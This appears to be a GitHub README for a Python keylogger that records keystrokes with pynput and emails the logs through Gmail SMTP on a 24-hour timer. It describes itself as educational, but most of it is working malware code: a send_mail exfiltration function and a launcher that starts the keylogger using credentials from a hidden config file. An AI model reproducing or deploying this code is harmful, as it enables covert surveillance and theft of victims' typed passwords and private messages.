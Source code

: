 # Keylogger

Keylogger with send message gmail
The program reads the buttons entered from the keyboard key
Sends in the form of a log to the mail

The program is written for educational purposes.

# Import
```python
import pynput.keyboard
import threading
import smtplib
```

# Explanation
Settings may differ from preference and SMTP. Server
Debuglevel -> False, Turns on when debugging a program
```python
def send_mail(email, password, message):
    """Send email smtp.google.com"""
    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)
    server.set_debuglevel(False)
    server.login(email, password)
    server.auth_plain()
    server.sendmail(email, email, message)
    server.quit()
```
# Zilogger
Gets the input time interval for sending email, and variables from the config.py(is hidden) file for authorization on the SMTP server
```python
import keylogger
import config

# 86400 second -> 24 hours
my_keylogger = keylogger.Keylogger(86400, config.EMAIL, config.PASSWORD)
my_keylogger.start()
```
